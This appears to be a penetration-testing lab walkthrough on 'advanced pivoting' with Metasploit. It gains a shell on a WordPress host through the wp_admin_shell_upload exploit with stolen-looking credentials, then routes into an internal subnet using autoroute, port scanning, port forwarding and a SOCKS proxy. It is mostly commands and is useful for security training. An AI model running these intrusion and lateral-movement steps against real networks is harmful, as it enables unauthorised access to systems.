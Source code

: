 # Advanced Pivoting

Let's launch the `msfconsole`.

```bash
sudo su
msfconsole
search shell_upload
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOST 10.0.100.10
set USERNAME sammy
set PASSWORD qwerty1
run
```

We are now in the interpreter.
Let's go to the shell and ping the second machine (media).
We'll first ping to see if we can reach the machine then setup an autoroute.

```bash
shell
ping 10.0.148.217
run autoroute -s 10.0.148.0/24
background
route print
```

That show us the following:

```bash
Subnet            Netmask            Gateway
------            -------            -------
10.0.148.0        255.255.255.0      Session 1
```

First of all, let's scan the ports.

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.148.217
run
```

This shows the opened ports.
In this example, it will be the `port 80`.

Now that we know there is something on `port 80`, let's try to detect it.
Let's try the `http_version` auxiliary module.

```bash
use auxiliary/scanner/http/http_version
show options
RHOSTS 10.0.148.217
```

This doesn't work, let's close it and try to use other methods.
We could use a sock server or port forwarding.

## Using Portforwarding

`-l` is the local port, `-p` is the port you want to forward to and `-r` is the final route.

```bash
sessions -i 1
portfwd add -l 80 -p 80 -r 10.0.148.217
```

Now the content provided in `port 80` of the media machine is accessible from our kali machine.
If we type 127.0.0.1 that show us the `media.hackerinthehouse.com` website.
The website doesn't load the css files, we could try to add it to our hosts.

```bash
nano /etc/hosts
127.0.0.1
```

Since the portforwarding works, let's try to run nmap.

```bash
nmap -sV 127.0.0.1 -p80
```

This finds `Apache httpd 2.4.7 (Ubuntu)`.

## Using Sock server method

```bash
background
search socks
use auxiliary/server/socks4a
show options
set SRVPORT 6666
run
```

We are now running a socks server on port 6666.
To show all jobs running, write `jobs`.
Write `jobs -i id` to show a specific one.

```bash
sessions 2
run autoroute -s 10.0.148.0/24
background
```

Now if we go to proxies in firefox in the SOCKS host to port 6666, that will how us the website.
